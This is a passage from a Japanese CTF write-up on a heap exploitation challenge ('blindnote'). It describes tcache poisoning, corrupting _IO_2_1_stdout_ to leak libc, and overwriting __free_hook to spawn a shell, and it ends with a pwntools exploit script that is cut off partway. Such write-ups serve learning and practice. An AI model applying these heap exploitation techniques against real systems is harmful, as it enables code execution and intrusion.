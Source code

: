 ```
```

確かに先程`_IO_2_1_stdout_`を指すようにしたチャンクがtcacheに入っていることがわかる。

### stdout corruption

ここまでくれば3回createすることで`_IO_2_1_stdout_`を編集出来るので、後は[Security Fest 2019 - Baby5 (showless leak)](/@Xornet/SkIgCyXJP)でやったようにメンバを良い感じに書き換えてlibc leakする。
何をしているかはこの問題と全く同じなので割愛する(先にそっち↑読んでください)

### いつもの

上記手順が理解できるならもうここの説明は不要だろうが、一応書く。
Heap Overflowがあるのでtcache中にあるエントリーのnextを`__free_hook`に書き換えて確保した際にシェル起動用のアドレスを入れるだけである。
例によって`system("/bin/sh")`を発火させた。

## Code

```python
from pwn import p64, u64, ELF, process


def select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def create(s, data=b"/bin/sh\x00"):
    select(s, b"1")
    s.recvuntil(b"Contents: ")
    s.sendline(data)


def delete(s, idx):
    select(s, b"3")
    s.recvuntil(b"Index: ")
    s.sendline(str(idx))


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    libc = ELF("./libc-2.27.so")
    offset = 0x7fd8e6ded8b0 - 0x7fd8e6a00000
    free_hook_libc = libc.symbols["__free_hook"]
    system_libc = libc.symbols["system"]

    padding = b"/bin/sh\x00" + b"a" * 0x90 + p64(0xa1)
    s = process("./blindnote")

    for _ in range(8):
        create(s)

    delete(s, 7)
    delete(s, 6)
    delete(s, 5)
    delete(s, 4)
    delete(s, 1)
    delete(s, 0)
```